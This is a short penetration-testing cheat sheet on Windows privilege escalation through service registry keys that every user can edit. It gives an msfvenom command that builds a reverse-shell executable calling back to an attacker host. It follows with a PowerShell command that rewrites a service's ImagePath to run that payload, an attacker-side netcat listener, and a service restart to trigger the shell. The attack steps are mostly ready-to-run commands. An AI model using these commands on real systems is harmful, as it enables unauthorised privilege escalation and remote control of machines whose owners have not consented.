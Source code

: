 ## Registry Path Exploitation

### Steps

#### Recon / Enumeration

We are looking for registry keys that state, that all users have permission to edit this key of a service.

It can be recognized with this syntax:

```
Permissions: AllAccess
```

or 

```
Access: Everyone Allow ReadKey
```

#### Exploitation

**Upload shell exe binary**
Make an reverse shell executable:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> lport=<port> -a x64 --platform windows -f exe -o exploit.exe
```

Upload an exe binary made with msfvenom to a folder you have permission to like:

```
C:\Temp
C:\Program Data\
C:\Users\<username>\Downloads,Desktop,etc
```

Insert it into the service/registry key with this command in powershell as a lowpriv user:

```
Set-ItemProperty -Path "Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE<\SystemKeyStatedPath>" -Name "ImagePath" -Value "C:<Path\To\Rev\Shell.exe>"
```

**Attacker machine side**

```
nc -lvnp <port>
```

**Back at victim shell**
restart/stop -> start the service that is connected to the registry key.

```
Restart-Service -Name "<servicename>"
```

